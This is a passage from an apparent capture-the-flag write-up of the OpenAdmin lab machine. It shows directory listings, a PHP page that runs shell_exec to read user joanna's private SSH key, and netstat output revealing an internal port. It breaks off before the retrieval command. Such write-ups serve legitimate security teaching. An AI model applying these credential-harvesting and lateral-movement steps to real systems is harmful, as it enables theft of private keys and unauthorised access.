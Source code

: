 We cannot cd into joanna's home directory, so we need to find some other way in. After some enumeration, I found that we have a directory in /var/www/internal/ owned by user jimmy.

```r
jimmy@openadmin:/var/www/internal$ ls -lah
total 20K
drwxrwx--- 2 jimmy internal 4.0K Nov 23 17:43 .
drwxr-xr-x 4 root  root     4.0K Nov 22 18:15 ..
-rwxrwxr-x 1 jimmy internal 3.2K Nov 22 23:24 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23 16:37 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23 17:40 main.php
```
Looking into main.php, we can see that it prompts the id_rsa of user joanna.

```php
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
jimmy@openadmin:/var/www/internal$ 
```

Now we need to know which port this service is running on. For this we can use the `netstat -tulpn` command:

```r
jimmy@openadmin:/var/www/internal$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
jimmy@openadmin:/var/www/internal$ 
```
We can see a service running on port 52846. We can get the file using:
